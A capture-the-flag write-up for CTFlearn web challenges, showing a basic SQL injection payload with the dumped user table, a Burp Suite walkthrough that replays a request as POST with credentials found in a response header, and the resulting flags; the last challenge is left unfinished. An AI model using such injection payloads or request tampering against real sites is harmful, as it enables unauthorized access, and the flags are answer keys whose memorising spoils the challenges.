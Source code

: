 Web

# Easy Challeneges

## Basic SQL Injection 
Given this link https://web.ctflearn.com/web4/

### input:
```'or '1'='1 ```
### output: 
```  
Name: Luke
Data: I made this problem.
Name: Alec
Data: Steam boys.
Name: Jalen
Data: Pump that iron fool.
Name: Eric
Data: I make cars.
Name: Sam
Data: Thinks he knows SQL.
Name: fl4g__giv3r
Data: th4t_is_why_you_n33d_to_sanitiz3_inputs
Name: snoutpop
Data: jowls
Name: Chunbucket
Data: @datboiiii 
```

### Flag:
``` 
CTFlearn{th4t_is_why_you_n33d_to_sanitiz3_inputs}
```

# Medium Challenges

## POST Practice
### Given:
```
These website requires authentication, via POST. However, it seems as if someone has defaced our site. Maybe these is still some way to authenticate? http://165.227.106.113/post.php
```
I used a proxy browser enabled by Burp Suite to intercept the requests. 

Intercepted the GET request obtained from the given link, http://165.227.106.113/post.php
### Output:
``` 
GET /post.php?+= HTTP/1.1
Host: 165.227.106.113
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

From here I also saw some credentials in the response header as ``` admin:71urlkufpsdnlkadsf ```
Next, I sent this captured GET request to Burp's Repeater and changed the request method to POST and then added the credentials to the request.

### Output: 
```
POST /post.php HTTP/1.1
Host: 165.227.106.113
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Proxy-Authorization: Basic admin:71urlkufpsdnlkadsf
Connection: close
Cookie: PHPSESSID=l8b2286ifqdceh32ablttfpdu5
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 43

&username=admin&password=71urlkufpsdnlkadsf
```
The flag was found the response header after sending the POST request with the proper credentials.
```
HTTP/1.1 200 OK
Server: nginx/1.4.6 (Ubuntu)
Date: Sun, 09 Aug 2020 01:09:13 GMT
Content-Type: text/html
Connection: close
X-Powered-By: PHP/5.5.9-1ubuntu4.22
Content-Length: 32

<h1>flag{p0st_d4t4_4ll_d4y}</h1>
```
### Flag:
``` 
CTFlearn{p0st_d4t4_4ll_d4y}
```

## Prehashbrown
### Given:
```
I created a database of all known types of hashbrowns! Try to see if you can find a way to authenticate as an admin and retrieve the flag. Hashbrown Database - http://138.197.193.132:5000/login
```

To begin, register a new account from the main page you are redirected to from the given link.
In this case, I used the credentials as ``` test123:test123 ``` for this new account.
### Output:
``` 

```
### Flag:
``` 

```
